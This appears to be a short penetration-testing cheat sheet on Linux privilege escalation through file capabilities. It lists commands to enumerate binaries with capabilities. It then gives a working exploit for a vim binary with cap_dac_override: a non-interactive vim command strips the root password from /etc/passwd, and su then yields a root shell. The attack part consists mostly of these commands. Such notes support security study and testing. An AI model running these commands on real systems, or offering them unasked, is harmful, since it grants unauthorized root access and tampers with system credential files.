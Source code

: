 # Capabilities

To find capabilities:

```
getcap -r / 2>/dev/null 
```

### Exploitation

To find:

```
find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
```

To exploit _cap\_dac\_override_:&#x20;

For example if it is vim:

```
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip
```

Because the binary has the cap\_dac\_override capability set, it can escalate the privileges of the user who runs it.

A system file can be modified with this capability. Modifying the root user in `/etc/passwd` allows for login without password.

```
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd
```

for non interactive method.

Then use `su` to get root access.

